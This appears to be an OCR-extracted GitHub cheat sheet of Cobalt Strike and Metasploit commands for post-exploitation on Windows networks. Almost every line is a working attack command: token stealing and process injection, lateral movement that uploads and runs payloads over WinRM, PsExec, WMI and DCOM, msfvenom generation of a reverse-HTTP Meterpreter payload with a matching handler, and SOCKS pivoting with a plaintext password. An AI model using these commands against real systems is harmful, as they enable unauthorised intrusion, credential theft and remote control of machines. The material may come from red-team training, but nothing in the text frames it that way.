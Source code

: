 Token Store
`token-store show`
`token-store steal [pid]`
`token-store use [id]`
`token-store remove [id]`
`token-store remove-all`
#### Process Injection
`inject [pid] x64 local`
## Lateral Movement
`execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe [module] -ComputerName=[target]`

`ak-settings`
`ak-settings spawnto_x64 C:\Windows\System32\dllhost.exe`
`ak-settings spawnto_x86 C:\Windows\SysWOW64\dllhost.exe`

`portscan [target] 445`
#### WinRM
`jump winrm64 [target] smb`
#### PsExec
`jump psexec64 [target] smb`
#### WMI
`cd \\[target]\ADMIN$`
`upload C:\Payloads\smb_x64.exe`
`remote-exec wmi [target] C:\Windows\smb_x64.exe`
`execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=[target] command="C:\Windows\smb_x64.exe"`
`link [target] [pipe]`
#### DCOM
`cd \\[target]\ADMIN$`
`upload C:\Payloads\smb_x64.exe`
`powershell-import C:\Tools\Invoke-DCOM.ps1`
`powerpick Invoke-DCOM -ComputerName [target] -Method MMC20.Application -Command C:\Windows\smb_x64.exe`
`link [target] [pipe]`
## Session Passing
`spawn x64 http`
#### Foreign Listener (Meterpreter)
`msfconsole -q -x 'use exploit/multi/handler;set payload windows/meterpreter/reverse_http;set LHOST ens5;set LPORT 8080;run'`
`spawn msf`
#### Custom Foreign Listener
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST=[ip] LPORT=8080 -f raw -o /mnt/c/Payloads/msf_http_x64.bin`

`msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_http;set LHOST ens5;set LPORT 8080;run'`
`shspawn x64 C:\Payloads\msf_http_x64.bin`
## Pivoting
#### Socks Proxy
`socks 1080`
`socks 1080 socks5 disableNoAuth john S@lcianaszkot23 enableLogging`
#### Linux
/etc/proxychains.conf
```
#proxy_dns
remote_dns

```